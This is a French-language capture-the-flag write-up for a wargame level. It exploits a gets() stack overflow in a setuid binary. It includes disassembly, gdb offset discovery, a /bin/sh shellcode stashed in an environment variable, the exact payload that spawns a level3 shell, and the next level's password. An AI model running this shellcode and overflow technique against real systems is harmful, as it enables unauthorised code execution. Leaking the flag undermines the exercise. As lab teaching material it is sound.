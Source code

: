 ## Démarches

Même réflexes que pour les levels précédents :

- Le binaire ./level2 attend quelque chose sur l'entrée standard, qu'il réimprime par la suite avant de quitter.
- `objdump -d level2` :
  - le main appelle une fonction `p` :
    ```
    804853f:	55                   	push   %ebp
    8048540:	89 e5                	mov    %esp,%ebp
    8048542:	83 e4 f0             	and    $0xfffffff0,%esp
    8048545:	e8 8a ff ff ff       	call   80484d4 <p>
    804854a:	c9                   	leave
    804854b:	c3                   	ret
    ```
  - la fonction p comporte les fonctions `fflush`, `gets`, `printf`, `exit`, `puts` et `strdup` :
    ```
    80484d4:	55                   	push   %ebp
    80484d5:	89 e5                	mov    %esp,%ebp
    80484d7:	83 ec 68             	sub    $0x68,%esp
    80484da:	a1 60 98 04 08       	mov    0x8049860,%eax
    80484df:	89 04 24             	mov    %eax,(%esp)
    80484e2:	e8 c9 fe ff ff       	call   80483b0 <fflush@plt>
    80484e7:	8d 45 b4             	lea    -0x4c(%ebp),%eax
    80484ea:	89 04 24             	mov    %eax,(%esp)
    80484ed:	e8 ce fe ff ff       	call   80483c0 <gets@plt>
    80484f2:	8b 45 04             	mov    0x4(%ebp),%eax
    80484f5:	89 45 f4             	mov    %eax,-0xc(%ebp)
    80484f8:	8b 45 f4             	mov    -0xc(%ebp),%eax
    80484fb:	25 00 00 00 b0       	and    $0xb0000000,%eax
    8048500:	3d 00 00 00 b0       	cmp    $0xb0000000,%eax
    8048505:	75 20                	jne    8048527 <p+0x53>
    8048507:	b8 20 86 04 08       	mov    $0x8048620,%eax
    804850c:	8b 55 f4             	mov    -0xc(%ebp),%edx
    804850f:	89 54 24 04          	mov    %edx,0x4(%esp)
    8048513:	89 04 24             	mov    %eax,(%esp)
    8048516:	e8 85 fe ff ff       	call   80483a0 <printf@plt>
    804851b:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
    8048522:	e8 a9 fe ff ff       	call   80483d0 <_exit@plt>
    8048527:	8d 45 b4             	lea    -0x4c(%ebp),%eax
    804852a:	89 04 24             	mov    %eax,(%esp)
    804852d:	e8 be fe ff ff       	call   80483f0 <puts@plt>
    8048532:	8d 45 b4             	lea    -0x4c(%ebp),%eax
    8048535:	89 04 24             	mov    %eax,(%esp)
    8048538:	e8 a3 fe ff ff       	call   80483e0 <strdup@plt>
    804853d:	c9                   	leave
    804853e:	c3                   	ret
    ```
- Comme au level1, il est possible de faire segfault le programme avec un overflow de `gets` :
  - Avec gdb + peda, on créé un pattern de 100 caractères que l'on passe sur l'entrée standard au lancement du programme :
    `pattern create 100`
    > 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'

    `r < <(python -c 'print("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")'`

  - On recherche le pattern :
    `pattern search`
    > EBP+0 found at offset: 76

  - On peut vérifier que le buffer ne peut accepter que 76 caractères : 
    `r < <(python -c 'print(76*"A"+"1234")')`
    > EBP: 0x34333231 ('1234')

-  On peut observer avant l'appel du printf une comparaison : le programme vérifie qu'il ne copie pas une adresse de la stack (commençant par *0xb*)
    >    0x08048500 <+44>:	cmp    eax,0xb0000000

- La vérification empêche de faire appel à une adresse située sur la stack, mais on peut sauvegarder un shellcode appelant */bin/sh* dans l'env :
  ```
  export SHELLCODE=`python -c 'print("\x90"*200+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"+"\xe0\xf6\xff\xbf")'`
  ```
- Dans GDB :
  - Récupérer avec gdb l'adresse du retour de p 
    `disass p`

    > 0x0804853e <+106>:	ret

  - Récupérer l'adresse de la var SHELLCODE dans l'env
    `x/s *((char **)environ)`
      > 0xbffff869

- Dans la VM (hors gdb), on passe dans l'entrée standard du programme 80 caractères (76 + 4 pour overflow le buffer), suivi de l'adresse de ret puis l'adresse du shellcode stocké dans l'env.
`(python -c 'print("A"*80+"\x3e\x85\x04\x08"+"\x69\xf8\xff\xbf")'; cat ) | ./level2

```
  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>AAAAAAAAAAAA>i���`
  ls
  ls: cannot open directory .: Permission denied
  pwd
  /home/user/level2
  whoami
  level3
  ls -la /home/user/level3
  total 17
  dr-xr-x---+ 1 level3 level3   80 Mar  6  2016 .
  dr-x--x--x  1 root   root    340 Sep 23  2015 ..
  -rw-r--r--  1 level3 level3  220 Apr  3  2012 .bash_logout
  -rw-r--r--  1 level3 level3 3530 Sep 23  2015 .bashrc
  -rw-r--r--+ 1 level3 level3   65 Sep 23  2015 .pass
  -rw-r--r--  1 level3 level3  675 Apr  3  2012 .profile
  -rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
  cat /home/user/level3/.pass
  492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
  ```




<br>





----
## Ressources
- https://dhavalkapil.com/blogs/Shellcode-Injection/
- https://gist.github.com/lzutao/ca76df0d98cd46e3f7a98f0ac3beed58#background-information
- https://beta.hackndo.com/buffer-overflow/#pratique
- https://payatu.com/understanding-stack-based-buffer-overflow